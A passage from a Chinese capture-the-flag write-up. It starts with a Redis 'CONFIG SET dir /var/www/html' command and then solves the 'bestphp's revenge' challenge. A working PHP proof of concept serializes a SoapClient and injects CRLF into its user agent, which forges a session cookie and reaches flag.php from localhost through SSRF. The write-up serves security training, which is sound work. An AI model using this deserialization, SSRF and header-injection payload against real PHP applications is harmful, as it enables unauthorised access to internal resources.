 可以看到插入的Redis命令

CONFIG SET dir /var/www/html

## bestphp's revenge

这道题看了wp才知道原来还有个flag.php

![image-20210602132016629](images/10.png)

访问下flag.php

![image-20210602132035869](images/11.png)

REMOTE_ADDR等于127.0.0.1时，就会在session中插入flag,再结合源码中的var_dump($_SESSION)就能得到flag.

那我们就要插入一个session,并且要让我们的REMOTE_ADDR等于127.0.0.1

这不就是ssrf和crlf了？

POC:

```
<?php

$target = "http://127.0.0.1/flag.php";

$attack = new SoapClient(null,array('location' => $target,

  'user_agent' => "N0rth3ty\r\nCookie: PHPSESSID=tcjr6nadpk3md7jbgioa6elfk4\r\n",

  'uri' => "123"));

$payload = urlencode(serialize($attack));

echo $payload;
```
